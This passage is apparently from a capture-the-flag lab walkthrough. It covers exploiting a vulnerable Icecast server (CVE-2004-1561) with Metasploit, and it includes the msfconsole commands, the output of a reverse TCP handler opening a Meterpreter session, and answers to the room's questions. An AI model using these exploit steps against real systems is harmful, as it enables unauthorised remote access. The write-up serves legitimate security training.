 ```bash
msf5 exploit(windows/http/icecast_header) > set RHOSTS 10.10.253.246
RHOSTS => 10.10.253.246

msf5 exploit(windows/http/icecast_header) > exploit

[*] Started reverse TCP handler on 10.10.24.48:4444 
[*] Sending stage (176195 bytes) to 10.10.253.246
[*] Meterpreter session 1 opened (10.10.24.48:4444 -> 10.10.253.246:49208) at 2021-12-04 15:02:09 +0000

meterpreter > 
```

## Answer the questions below
----

1.Now that we've identified some interesting services running on our target machine, let's do a little bit of research into one of the weirder services identified: Icecast. Icecast, or well at least this version running on our target, is heavily flawed and has a high level vulnerability with a score of 7.5 (7.4 depending on where you view it). What type of vulnerability is it? Use https://www.cvedetails.com for this question and the next.
>>execute code overflow

2.What is the CVE number for this vulnerability? This will be in the format: CVE-0000-0000
>>CVE-2004-1561

3.Now that we've found our vulnerability, let's find our exploit. For this section of the room, we'll use the Metasploit module associated with this exploit. Let's go ahead and start Metasploit using the command `msfconsole`
>>No answer needed

4.After Metasploit has started, let's search for our target exploit using the command 'search icecast'. What is the full path (starting with exploit) for the exploitation module? This module is also referenced in 'RP: Metasploit' which is recommended to be completed prior to this room, although not entirely necessary. 
>>exploit/windows/http/icecast_header

5.Let's go ahead and select this module for use. Type either the command `use icecast` or `use 0` to select our search result.
>>No answer needed

6.Following selecting our module, we now have to check what options we have to set. Run the command `show options`. What is the only required setting which currently is blank?
>>rhosts

7.First let's check that the LHOST option is set to our tun0 IP (which can be found on the access page). With that done, let's set that last option to our target IP. Now that we have everything ready to go, let's run our exploit using the command `exploit`
>>No answer needed

----

# Task 4 Escalate
----
